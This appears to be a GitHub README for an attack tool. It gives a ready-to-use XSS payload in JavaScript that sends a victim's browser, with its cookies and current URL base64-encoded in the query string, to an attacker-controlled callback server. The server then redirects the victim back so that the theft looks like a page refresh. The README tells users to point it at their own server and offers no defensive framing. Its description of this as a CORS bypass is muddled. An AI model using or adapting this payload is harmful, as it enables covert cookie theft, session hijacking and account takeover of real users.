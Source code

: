 ## Bypass Cross-Origin Resource Sharing restrictions

This demonstrates how the location setter of browsers are vulnerable to cross origin resource sharing.

This repo includes an example XSS payload and callback that, once executed, will change a browser's location to your callback server, which returns a **301 Moved Permanently** response sending the victim back to its referrer.

This example also includes a token to facilitate stored and reflected XSS; a token is added to the URL's anchor preventing the XSS payload from reactivating. It would of course be better practice if you extend this payload so that it removes the stored/reflected XSS entirely.

**When the attack is executed successfully, the victim experienced what seemed like a page refresh at most.**

## Usage

Use the following code in your XSS payload. You must change the new location's address to that of your callback server, and change the token at the very least.

You can shorten this code by removing the token if you are not using it in stored or reflected XSS.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) globalThis.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent(btoa(globalThis.location.href)) + 
  "&data=" + encodeURIComponent(btoa(document.cookie)) + 
  "&token=" + encodeURIComponent(btoa(token));
```

If the victim did not send a `referer` URL parameter, the attacker's server looks for a `Referer` header value. If neither of those are provided, the victim will be redirected to a panic address of your choice.
